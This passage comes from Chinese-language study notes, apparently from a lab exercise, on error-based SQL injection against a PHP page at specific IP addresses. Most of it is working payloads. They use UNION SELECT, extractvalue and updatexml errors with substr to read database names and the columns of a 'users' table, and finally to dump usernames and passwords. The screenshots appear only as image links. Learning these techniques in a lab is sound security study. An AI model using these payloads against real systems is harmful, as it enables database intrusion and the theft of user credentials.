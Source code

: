   ```
    http://1.14.28.17:13815/string.php?id=-1' union select 1,2,3%23

    ![image](assets/image-20240820184554-bw2ml8j.png)

    http://1.14.28.17:13815/string.php?id=1' and extractvalue(1,concat(0x7c,(select user())))%23

    ![image](assets/image-20240820185530-hbbnnir.png)

    http://1.14.28.17:13815/string.php?id=1' and extractvalue(1,concat(0x7c,(select group_concat(schema_name) from information_schema.schemata)))%23

    ![image](assets/image-20240820185611-z8ftk5c.png)
3. 查询库名

    > mysql 截取函数
    > substr substring mid left right
    > use security;select substr(database(),1,2) ==> se
    > use security;select left(database(),1) ==> s 从左向右截取
    > use security;select right(database(),1) ==> y 从右向左截取
    >

    通过截取函数绕过长度限制

    ![image](assets/image-20240822114925-8raoq27.png)

    http://1.14.28.17:28330/string.php?id=1' and extractvalue(1,concat(0x7c,(select substr((select group_concat(schema_name) from information_schema.schemata),1,31))))%23

    ![image](assets/image-20240820190525-peqi345.png)

    ```python
    http://192.168.100.40:43013/string.php?id=1' and extractvalue(1,concat(0x7c,(select substr((select group_concat(schema_name) from information_schema.schemata),32,31))))%23
    ```


    ![image](assets/image-20240820191438-z6unswk.png)

    `http://192.168.100.40:43013/string.php?id=1' and extractvalue(1,concat(0x7c,(select substr((select group_concat(schema_name) from information_schema.schemata),63,31))))%23`<br />![image](assets/image-20240820191536-7kouz36.png)
4. 查询字段名

    http://192.168.100.40:43013/string.php?id=1' and extractvalue(1,concat(0x7c,(select substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,31))))%23

    ![image](assets/image-20240820191658-tbbcj45.png)
5. 查数据

    http://192.168.100.40:43013/string.php?id=1' and extractvalue(1,concat(0x7c,(select substr((select group_concat(id,'_',username,'_',password) from users),1,31))))%23![image](assets/image-20240820191909-d44lkmf.png)

    http://192.168.100.40:43013/string.php?id=1' and updatexml(1,concat(0x7e,(select substr((select group_concat(id,'_',username,'_',password) from users),1,31)),0x7e),1)%23![image](assets/image-20240820192052-zhhiakx.png)





### floor报错函数
  ```